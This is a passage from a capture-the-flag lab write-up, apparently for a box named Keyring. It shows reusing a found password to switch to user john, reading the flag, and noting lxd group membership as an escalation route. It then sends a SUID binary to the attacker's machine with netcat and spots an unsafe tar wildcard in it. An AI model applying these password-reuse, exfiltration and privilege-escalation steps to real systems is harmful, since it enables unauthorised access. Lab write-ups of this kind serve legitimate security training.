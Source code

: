 Reusing John's password **Sup3r$S3cr3t$PasSWORD** to escalate privileges.

```console
www-data@keyring:/var/www/html$ su john
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

john@keyring:/var/www/html$ cd
john@keyring:~$ grep -oP 'V.*=' user.txt | base64 -d
THM{Bash_1s_Fun_3831342}
```

The user **john** belongs to the lxd group. In the previous writeup I explain how to exploit this misconfiguration.

```console
john@keyring:~$ groups
john adm cdrom sudo dip plugdev lxd lpadmin sambashare
```

The **compress** SUID file was found in john's home directory.

```console
john@keyring:~$ ls -l compress 
-rwsr-xr-x 1 root root 16784 Jun 20  2021 compress
```

Type the following command on the attacking machine to transfer the **compress** binary:

```console
root@kali:/keyring# nc -vlnp 443 > compress
listening on [any] 443 ...
```

Then, on the target server, type the following:

```console
john@keyring:~$ nc 172.16.71.1 443 < compress
```

With the **strings** command it was discovered that the **tar** command is defined to compress in an unsafe way.

```console
root@kali:/keyring# strings compress | grep '/bin/tar'
/bin/tar cf archive.tar *
```

Using ghidra the same was verified.

![](/assets/images/keyring/screenshot-17.png)
